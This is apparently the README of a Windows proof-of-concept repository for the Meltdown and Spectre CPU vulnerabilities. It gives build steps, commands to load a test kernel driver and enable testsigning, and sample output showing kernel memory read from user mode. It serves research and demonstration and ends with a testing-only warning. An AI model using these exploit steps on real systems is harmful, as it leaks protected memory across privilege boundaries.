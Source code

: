# Meltdown/Spectre Proof-of-Concept for Windows

This repository contains PoC codes to demonstrate the famous Meltdown/Spectre vulnerability.

## Software requirements to build

Don't worry, all free :wink:.

- Visual Studio Community 2017<br />[https://www.visualstudio.com/downloads/](https://www.visualstudio.com/downloads/)
- Windows 10 SDK<br />[https://developer.microsoft.com/en-us/windows/downloads/windows-10-sdk](https://developer.microsoft.com/en-us/windows/downloads/windows-10-sdk)
- WDK for Windows 10<br />[https://developer.microsoft.com/en-us/windows/hardware/download-kits-windows-hardware-development](https://developer.microsoft.com/en-us/windows/hardware/download-kits-windows-hardware-development)
- The Netwide Assembler<br />[http://www.nasm.us/](http://www.nasm.us/)

## How to build

### 1. Configure NASM

Update `ASM` in `common.inc` with the path to nasm.exe

### 2. Prepare a codesign certificate to sign a driver (for Meltdown Full)

Meltdown Full PoC needs help from a driver, that is included in this repo.  In the current Windows, drivers need to be signed with a codesign certificate.  So you need to create a self-signed or CA-signed certificate.  If you are a millionaire, you may have a [Windows EV signing cert](https://docs.microsoft.com/en-us/windows-hardware/drivers/dashboard/get-a-code-signing-certificate).

`Makefile` in the repo already has a step to sign a driver file.  What you need to do is:

1. Prepare a certificate having 'codeSigning' (1.3.6.1.5.5.7.3.3) in the extended key usage section<br />OpenSSL is always your friend.  If you prefer Microsoft'ish way, [this](https://msdn.microsoft.com/en-us/library/windows/desktop/jj835832.aspx) would be useful.

2. On your build machine, install your certificate to the 'My' Certificate store:<br />`certutil -add My <path_to_pfx>`

3. Update `CODESIGN_SHA1` in `03_meltdown_full/Makefile` with SHA1 hash of your certificate.

4. On you test machine to run the driver on, enable testsigning:<br />`bcdedit /set testsigning on`

5. Reboot the test machine to enable the testsigning mode

### 3. Build

Launch "x64 Native Tools Command Prompt for VS 2017" and run `NMAKE` on the root of this repo.  Binaries will be generated under the subdirectory "bin/amd64".

The current code supports x64 only.  32bit compilation will fail.

## How to run

### PoC #1: Toy example of Meltdown

This PoC demonstrates the toy example of Meltdown described in the [Meltdown paper](https://arxiv.org/abs/1801.01207).  The program executes an instruction that throws Divide-by-zero exception.  However, CPU speculatively runs instructions that are placed after the division and that behavior changes CPU's micro-architectural state.  Using Flush+Reload technique, the program can identify a value that is loaded from memory during out-of-order execution.

#### Run & Output

Run `toy.exe`.  The output means how many cycles are consumed to read each of 256 probe lines.  In the below example, obviously loading the index 0x42 is much faster than the others.  This is the micro-architectural change caused by out-of-order execution.

```
> bin\amd64\toy.exe
trial#118: guess=42 (score=72)
   258   261   264   264   225   228   231   228   225   228   231   225   264   294   255   267
   258   261   261   261   264   264   228   228   240   258   264   264   267   267   264   261
   261   261   264   258   261   258   264   264   225   222   222   231   231   231   258   261
   264   261   255   261   264   264   261   264   258   258   264   261   255   258   255   255
   258   264    72   261   258   264   261   261   258   264   258   264   264   261   261   258
   264   222   225   228   228   228   228   225   231   267   258   264   255   255   261   255
   261   261   258   258   261   255   261   255   264   258   258   258   261   261   261   258
..(snip)..
```

### PoC #2: Toy example of Spectre

This PoC demonstrates the 'Conditional Branch Misprediction' in the [Spectre paper](https://arxiv.org/abs/1801.01203).  The paper also includes the example implementation in C as Appendix A.  I could simplify that example a lot by using assembly language.

The program proves that CPU predicts a condition based on the previous results, and runs a branch speculatively when the result of that condition is still uncertain.

#### Run & Output

Run `branch.exe`.  The output is the same as Meltdown's toy example.

```
> bin\amd64\branch.exe
trial#0: guess='A' (score=78)
    27   267   264   261   291   330   264   297   258   261   255   255   300   222   225   294
   264   264   258   297   291   264   303   264   261   261   297   228   225   303   261   303
   225   330   267   258   300   297   303   297   270   264   330   228   303   258   258   264
   264   258   297   261   258   261   330   258   330   261   225   300   261   303   261   261
   264    78   318   225   228   300   261   261   258   300   228   249   297   300   261   303
   258   264   300   300   228   267   264   297   261   300   231   300   303   258   333   294
   258   264   294   225   297   300   297   300   261   261   261   261   273   261   300   324
..(snip)..
```

### PoC #3: Full Meltdown

This PoC demonstrates a full Meltdown scenario on Windows i.e. reading kernel memory from an unprivileged user-mode process.

[IAIK's Meltdown PoC](https://github.com/IAIK/meltdown) tries to read data at the direct physical map region, but Windows kernel does not have such a region in kernel that is always mapped into the physical memory.  Someone wrote a [PoC for Windows](https://github.com/stormctf/Meltdown-PoC-Windows) that is trying to read data at &lt;Imagebase of NT kernel&gt;+0x1000, but this code did not reproduce Meltdown on any of my environments.

For the demo purpose, I wrote a kernel driver to allocate some bytes in the non-paged pool.  Moreover, to make Meltdown work, I needed to implement a couple of more tricks, that I'll write up somewhere later.

#### Run & Output

First, configure `meltdown.sys` as a kernel service and start it.  This stores some data in the non-paged pool.

```
> sc create meltdown binpath= D:\WORK\meltdown.sys type= kernel
> net start meltdown
```

You can get a kernel address allocated in the previous step by running `mdc.exe`.  You'll see an output as follows.  In the below output, the target is `FFFFD10902564000`.

```
> mdc.exe --info
FullPathName: \SystemRoot\system32\ntoskrnl.exe
ImageBase:    FFFFF8014B889000
ImageSize:    008d2000
FFFFF8014BDA6000 (= nt + 0051d000 ):
 00 00 e8 79 2d ba ff 8b 87 d0 06 00 00 45 33 f6

Secret data should be placed at FFFFD10902564000
```

Before staring Meltdown, run the following command as well.  This makes sure the target data is stored onto L1 cache.  This is a mandatory step.

```
> mdc.exe --timer_start
```

Finally, start `meltdown.exe` to start Meltdown.  The first parameter is the number of bytes to read.  The second parameter is the virtual address to start reading at.  You'll see an output as follows.

```
> meltdown.exe 4 FFFFD10902564000
Target range: FFFFD10902564000 - FFFFD10902564004

You have 8 CPU cores.  Starting probing threads...

running tid:0ae8 for core#0
running tid:1e08 for core#1
running tid:0ad8 for core#2
running tid:16a8 for core#3
running tid:11cc for core#4
running tid:0af0 for core#5
running tid:0af4 for core#6
running tid:0848 for core#7

core#0:  41 6e 10 77
core#1:  00 00 73 00
core#2:  00 e0 00 00
core#3:  00 00 00 00
core#4:  00 00 00 44
core#5:  00 00 00 00
core#6:  00 00 00 00
core#7:  00 00 00 00
```

This PoC is not as stable as the toy examples described earlier.  The actual kernel bytes start with '41 63 73 77'.  You can see the thread running on core#0 got three of them, and core#1 got one.  It's not 100% accurate, but obviously we're seeing data that we should not be able to see.  Success rate depends on CPU, and some parameters hardcoded in the attacker's code.  For example, you may need to increase the value of `max_trial` in `meltdown_full`.

## \*Warning\*

This code is only for testing purposes. Do not run it on any productive systems. Do not run it on any system that might be used by another person or entity.
